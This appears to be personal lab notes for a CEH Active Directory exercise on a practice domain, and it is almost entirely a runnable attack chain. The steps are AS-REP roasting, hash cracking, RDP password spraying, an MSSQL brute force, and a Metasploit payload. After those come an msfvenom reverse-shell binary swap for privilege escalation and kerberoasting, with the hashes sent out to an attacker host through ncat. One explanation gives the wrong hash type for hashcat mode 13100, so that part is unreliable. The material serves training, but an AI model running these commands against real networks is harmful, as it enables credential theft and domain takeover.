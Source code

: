	TASK1. Perform Initial Scans to Obtain Domain Controller IP and Domain Name
88/TCP kerberos-sec and port 389/TCP LDAP
nmap -A -sC -sV 10.10.1.22
   
    TASK2. Perform AS-REP Roasting Attack
cd impacket/examples/
python3 GetNPUsers.py CEH.com/ -no-pass -usersfile /root/ADtools/users.txt -dc-ip 10.10.1.22  
GetNPUsers.py: Python script to retrieve AD user information.

CEH.com/: Target AD domain.

-no-pass: Flag to find user accounts not requiring pre-authentication.

-usersfile ~/ADtools/users.txt: Path to the file with the user account list.

-dc-ip 10.10.1.22: IP address of the DC to query.
john --wordlist=/root/ADtools/rockyou.txt joshuahash.txt
   
    TASK3.  Spray Cracked Password into Network using CrackMapExec
    Task 1, from the Nmap results we can observe that other hosts in the subnet are running services such as RDP, SSH, and FTP. Therefore, we can perform password spraying on each service individually to check for correct credentials. In this task, we will be focusing on RDP. However, you can explore and check other services.
    cme rdp 10.10.1.0/24 -u /root/ADtools/users.txt -p "cupcake" to perform password spraying.

rdp: Targets the Remote Desktop Protocol (RDP) service.

10.10.1.0/24: IP address range to target, encompassing all hosts within the subnet 10.10.1.0 with a subnet mask of 255.255.255.0.

-u /root/ADtools/users.txt: Specifies the path to the file containing user accounts for authentication.

-p "cupcake": Password which we cracked using AS-REP Roasting to test against the RDP service on the specified hosts.
Remmina Remote Desktop Client --->RDP for ParrotSEC
   
   TASK 4. Perform Attack on MSSQL service
pluma user.txt  ---->SQL_srv
hydra -L user.txt -P /root/ADtools/rockyou.txt 10.10.1.30 mssql
python3 /root/impacket/examples/mssqlclient.py CEH.com/SQL_srv:batman@10.10.1.30 -port 1433
SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name='xp_cmdshell'      -----> returning a value of 1, indicating that xp_cmdshell is enabled on the server.
msfconsole   ----->
use exploit/windows/mssql/mssql_payload
show option -----> help
set RHOST 10.10.1.30
set USERNAME SQL_srv
set PASSWORD batman
set DATABASE master
whoami
    TASK 5. Perform Privilege Escalation
     python3 -m http.server 
     wget http://10.10.1.13:8000/winPEASx64.exe -o winpeas.exe.
     msfvenom -p windows/shell_reverse_tcp lhost=10.10.1.13 lport=8888 -f exe > /root/ADtools/file.exe
     move file.exe file.bak ; wget http://10.10.1.13:8000/file.exe -o file.exe.
	TASK 6. Perform Kerberoasting Attack
	wget http://10.10.1.13:8000/Rubeus.exe -o rubeus.exe ; wget http://10.10.1.13:8000/ncat.exe -o ncat.exe.
	rubeus.exe kerberoast /outfile:hash.txt.
	nc -lvp 9999 > hash.txt 
	ncat.exe -w 3 10.10.1.13 9999 < hash.txt
	hashcat -m 13100 --force -a 0 hash.txt /root/ADtools/rockyou.txt.
	-m 13100: This specifies the hash type. 13100 corresponds to Kerberos 5 AS-REQ Pre-Auth etype 23 (RC4-HMAC), a specific format for Kerberos hashes.
	--force: This option forces Hashcat to ignore warnings and run even if there are compatibility issues. Use this with caution, as it might cause instability or incorrect results.